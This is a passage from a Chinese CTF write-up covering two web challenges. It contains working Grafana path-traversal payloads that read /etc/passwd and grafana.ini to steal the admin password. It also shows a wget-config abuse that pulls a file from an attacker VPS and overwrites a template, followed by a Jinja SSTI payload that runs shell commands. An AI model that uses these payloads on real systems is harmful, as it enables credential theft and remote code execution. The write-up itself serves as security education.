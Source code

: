 ```text
/public/plugins/state-timeline/../../../../../../../../etc/passwd
/public/plugins/text/../../../../../../../../etc/passwd
```

可以利用该漏洞读取`/etc/grafana/grafana.ini`获取`admin_password`进行登录

![image-20220417202231910](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-173a498f232acba0fb959ace6d1bfe5678f50c31.png)

接着可以看到一个`Mysql`的数据源

![image-20220417202730619](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-90b0fdcd6fd45c2c72ff0f10d9f2797ff4a335b0.png)

然后因为是公共环境，点击输入框就会自己跳出相应的表名和列名，最后执行即可(这里应该蹭到车)

![image-20220417020942210](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-2ad21004285c702cf75bae0297dd86538f5b53e0.png)

oh-my-lotto-revenge
===================

升级版，最主要的差别：这里即使两个文件相同也不会返回`flag`，所以出题人应该是想要让人Getshell获取`flag`

这里主要参考文章：<https://www.gnu.org/software/wget/manual/wget.html>

在其第6点说明了`wget`存在一个配置文件，可以利用该配置文件设置参数(这些参数可以在文档下面找到)，`wget`执行时，会去加载配置文件的参数，该配置文件也可以由自己设置

```text
WGETRC = filename
```

这里主要用到的参数有两个

```text
input = http://ip:port/file
output_document = templates/index.html
```

设置`input`为了让靶机去下载vps上的文件，`output_document`则是设置下载的文件该存在哪里，这里直接修改模板文件，由于没有进行过滤，直接用最简单的`Payload`即可

```text
{{lipsum.__globals__.__getitem__("os").popen("env").read()}}
```

将上面的内容存在vps上，并在当前文件夹中开启HTTP服务

![image-20220417205703673](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-13615b81bbadf177118f1440afd75455499a3206.png)

上传配置文件内容

最后修改`WGETRC=/app/guess/forecast.txt`，访问`/`获取flag

![image-20220417021020093](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-2c8f64bbaa247538043e671880d6e4105a4af35a.png)

这里一开始是想用`post_file`标签直接将`/proc/self/environ`文件外带出来的，但是测试发现并不行(不知道是不是权限的问题)，但是进入`Docker`中是可以读取该文件的，求知道的师傅解答一下！！！

![image-20220417210854970](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-f9ea9b9fe078d9ad803eb6dcf05b8639abf2db79.png)